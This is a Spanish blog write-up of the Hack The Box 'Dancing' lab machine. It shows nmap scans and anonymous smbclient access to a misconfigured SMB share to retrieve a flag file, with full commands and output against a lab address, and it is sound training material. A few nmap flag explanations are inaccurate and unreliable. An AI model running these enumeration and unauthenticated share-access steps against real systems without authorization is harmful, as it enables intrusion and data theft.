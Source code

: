 ```yaml
---
layout: single
title: Dancing - Hack The Box
excerpt: "Dancing es una máquina muy fácil que forma parte del Tier 0 de las máquinas para principiantes del Starting Point de Hack The Box. Para poder completar esta máquina, tendremos que conectarnos a ella a través de la VPN, para posteriormente comprometer la máquina mediante técnicas de reconocimiento para abusar de las vulnerabilidades existentes. En este caso, estaremos tocando SMB, un protocolo de red utilizado para ofrecer acceso compartido a archivos entre los nodos de una red."
date: 2022-10-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-dancing/dancing-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - CTFs
  - Windows
tags:  
  - smb
  - smb enumeration
---
```


![](/assets/images/htb-writeup-dancing/dancing-logo.png)

Dancing es una máquina Windows muy fácil que forma parte del Tier 0 de las máquinas para principiantes del Starting Point de Hack The Box. Para poder completar esta máquina, tendremos que conectarnos a ella a través de la VPN, para posteriormente comprometer la máquina mediante técnicas de reconocimiento y escaneos para abusar de las vulnerabilidades existentes. En este caso, estaremos tocando `Server Message Block (SMB)`, un protocolo de red utilizado para ofrecer acceso compartido a archivos, impresoras y otros puertos entre los nodos de una red.

## Reconocimiento Inicial

```
ping -c 1 10.129.72.119

PING 10.129.72.119 ( 10.129.72.119) 56(84) bytes of data.
64 bytes from 10.129.72.119: icmp_seq=1 ttl=127 time=44.4 ms

--- 10.129.72.119 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time Oms
rtt min/avg/max/mdev = 44.364/44.364/44.364/0.000 ms
```

## Escaneo de Puertos

```
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 10.129.72.119 -oG allPorts

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:11 CEST
Nmap scan report for 10.129.72.119
Host is up (0.12s latency).
Not shown: 62303 closed top ports (reset), 3221 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
5985/tcp open wsman
47001/tcp open winrm
49664/tcp open unknown
49665/tcp open unknown
49666/tcp open unknown
49667/tcp open unknown
49668/tcp open unknown
49669/tcp open unknown

Nmap done: 1 IP address (1 host up) scanned in 22.57 seconds
```

**Escaneo inicial de puertos abiertos con Nmap**
- **-p-** Escanea todo el rango de puertos [1-65535]
- **--open** Muestro solo los puertos abiertos
- **-sS** Aplica un TCP SYN Port Scan
- **--min-rate** Indica el número de paquetes por segundo a emitir
- **-vvv** Muestra por pantalla la información descubierta durante el escaneo
- **-n** Indica que no se aplicará resolución DNS durante el escaneo 
- **-Pn** Indica que no se aplicará el protocolo ARP durante el escaneo
- **-oG** Exporta el output del escaneo a un fichero en formato grepeable

![](/assets/images/htb-writeup-dancing/allPorts.png)

```
sudo nmap -sCV -p135, 139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.129.72.119 -oN targeted 

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:16 CEST
Nmap scan report for 10.129.72.119
Host is up (0.090s latency).

PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 | http-server-header: Microsoft-HTTPAPI/2.0
 |_http-title: Not Found
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 | http-server-header: Microsoft-HTTPAPI/2.0
 |_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft windows

Host script results:
 |_clock-skew: 4h00m09s
 | smb2-security-mode:
 |    3.1.1: 1.
 |_     Message signing enabled but not required
 | smb2-time:
 |    date: 2022-08-14T19:17:29
 |_   start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 
1 IP address (1 host up) scanned in 64.31 seconds
```

**Escaneo avanzado de detección de versiones y servicios con Nmap**
- **-p** Escanea los puertos especificados
- **-sV** Activa la detección de versiones y servicios
- **-sC** Lanza scripts básicos de reconocimiento y enumeración
- **-oG** Exporta el output del escaneo a un fichero en formato normal

![](/assets/images/htb-writeup-dancing/targeted.png)

## Detección de vulnerabilidades

Como podemos ver en el escaneo, hemos identificado que el puerto `445/tcp` está en estado abierto, ejecutando el servicio `SMB` de Microsoft-DS. `Server Message Block (SMB)` es un protocolo de red utilizado para ofrecer acceso compartido a archivos, impresoras y otros puertos entre los nodos de una red. Por lo tanto, el cliente puede leer, crear y actualizar archivos en el servidor remoto. Normalmente, el almacenamiento habilitado para SMB, denominado recurso compartido, puede ser accedido por cualquier cliente que tenga la dirección del servidor y las credenciales adecuadas. Sin embargo, a veces un administrador de red puede hacer errores y permitir accidentalmente `inicios de sesión sin ninguna credencial` válida o usando cuentas de invitado o inicios de sesión anónimos.

## Explotación de vulnerabilidades

**SMB**

Procedemos a listar los recursos compartidos del servidor `SMB` con `smbclient`, el parámetro `-L` para listar los directorios compartidos y la `ip de la máquina víctima`.

```
smbclient -L 10.129.72.119

Password for [WORK GROUP\root]:

    Sharename       Type    Comment
    ---------       ----    -------
    ADMIN$          Disk    Remote Admin
    C$              Disk    Default share
    IPC$            IPC     Remote IPC
    WorkShares      Disk 
    
Reconnecting with SMB1 for workgroup listing. do_connect: Connection to 10.129.72.119 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Como podemos ver, de todos los recursos compartidos mostrados, el único que no requiere de credenciales válidas es el recurso `WorkShares`, por lo que procedemos a conectarnos a él sin contraseña.

```
smbclient \\\10.129.72.119\\WorkShares

Password for [WORK GROUP\root]: 
Try "help" to get a list of possible commands.
smb: \>
```

Una vez dentro del servidor, podemos descargar la `flag.txt` a nuestro host local con el comando `get`, seguido del nombre del archivo que queremos descargar y el comando `exit` para salir.

```
smb: > ls
  
  .                                 D        0  Mon Mar 29 10:22:01 2021
  ..                                D        0  Mon Mar 29 10:22:01 2021
  Amy.J                             D        0  Mon Mar 29 11:08:24 2021
  James.P                           D        0  Thu Jun 3 10:38:03 2021

              5114111 blocks of size 4096. 1748775 blocks available
              
smb: > cd James.P\

smb: \James.P\> ls

  .                                 D        0  Thu Jun 3 10:38:03 2021
  ..                                D        0  Thu Jun 3 10:38:03 2021 
  flag.txt                          A       32  Mon Mar_29 11:26:57 2021

              5114111 blocks of size 4096. 1748775 blocks available

smb: \James.P\> get flag.txt 

getting file \James.P\flag.txt of size 32 as flag.txt (0,1 Kilobytes/sec) (average 0,1 Kilobytes/sec)

smb: \James.pl> exit
```

Finalmente, si salimos del servicio SMB después de transferir la flag del servidor a nuestro host, tendremos en nuestro equipo la `flag` de HackTheBox, que es nuestro objetivo principal.

![](/assets/images/htb-writeup-dancing/flag.png)